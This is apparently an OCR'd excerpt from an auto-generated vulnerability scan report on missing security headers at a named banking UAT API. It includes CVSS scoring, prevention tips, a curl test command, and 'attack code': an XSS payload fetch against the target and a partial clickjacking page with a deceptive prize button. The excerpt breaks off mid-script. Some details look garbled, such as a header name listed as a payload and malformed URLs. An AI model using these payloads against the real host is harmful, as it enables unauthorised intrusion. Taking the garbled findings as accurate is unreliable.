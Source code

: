 **🛡️ Prevention Methods:**
- Implement Content Security Policy (CSP)
- Set X-Frame-Options to prevent clickjacking
- Enable Strict-Transport-Security (HSTS)
- Set X-Content-Type-Options to nosniff
- Configure Referrer-Policy
- Set Permissions-Policy for feature control

**📋 Testing Commands:**
```bash
# Test 1: Access-Control-Allow-Origin
curl -X GET "https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?input=Access-Control-Allow-Origin"

```

---

### 10. Security Headers Vulnerability

**🎯 Target:** `https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false`

**📝 Description:** Missing security headers expose the application to various attacks including XSS, clickjacking, and protocol downgrade attacks.

**💥 Impact:** XSS, clickjacking, protocol downgrade, MIME confusion attacks, information disclosure

**🔍 CVSS Score:** 6.5 (Medium)

**📊 CVSS Details:**
- **Attack Vector:** Network
- **Complexity:** Low
- **Privileges Required:** None
- **User Interaction:** Required
- **Scope:** Unchanged
- **Confidentiality:** Low
- **Integrity:** Low
- **Availability:** None

**🔴 Priority:** Medium - Within 1 month

**🎯 Successful Payloads:**
1. `Access-Control-Allow-Methods`

**⚔️ Attack Code (How to Simulate):**
```javascript
// Security Headers Attack Code
// 1. XSS Attack (if CSP missing)
const xssPayload = "<script>alert('XSS')</script>";
fetch("https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false?q=" + encodeURIComponent(xssPayload));

// 2. Clickjacking Attack (if X-Frame-Options missing)
const clickjackingPage = `
<!DOCTYPE html>
<html>
<head><title>Free Prize!</title></head>
<body>
    <h1>🎁 Click for free prize!</h1>
    <iframe src="https://api.uat-nesfb.com/non-banking/discovery/v1/collectrequest?sliceAccountActiveStatus=false&connectionFailure=false&subscriptionFailure=false" style="opacity:0.1; position:absolute; top:50px; left:50px;"></iframe>
    <button onclick="triggerDelete()" style="position:absolute; top:50px; left:50px; z-index:1000;">
        🎁 CLAIM PRIZE
    </button>
    <script>
```